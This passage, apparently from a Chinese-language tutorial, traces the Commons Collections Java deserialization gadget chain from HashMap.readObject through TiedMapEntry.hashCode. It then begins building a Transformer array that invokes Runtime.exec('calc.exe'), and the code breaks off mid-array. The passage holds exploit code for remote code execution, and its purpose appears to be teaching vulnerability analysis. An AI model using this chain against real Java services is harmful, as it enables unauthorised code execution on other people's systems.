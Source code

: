 ```java 
    }
    ...
}
```

hashCode() 调用了getValue()，getValue() 又调用了 this.map.get()，

于是问题转变成**哪里调用了 TiedMapEntry#hashCode()**

#### 简易版

```
 ObjectInputStream.readObject()
            HashMap.readObject()  
            HashMap.hash()
            TiedMapEntry.hashCode()
            ...
```

直接从入口：java.util.HashMap#readObject()

```java
...
for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);  // here
            }
...
```

java.util.HashMap#hash()

```java 
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

HashMap#readObject()调用了hash(key)，hash方法又调用了key.hashCode()。

所以只要将key设置为TiedMapEntry对象，即可将上边的连起来。

##### 构造Gadget

```Java
 Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),

                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),

                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new String[] { "calc.exe" }),

                new ConstantTransformer(1),
```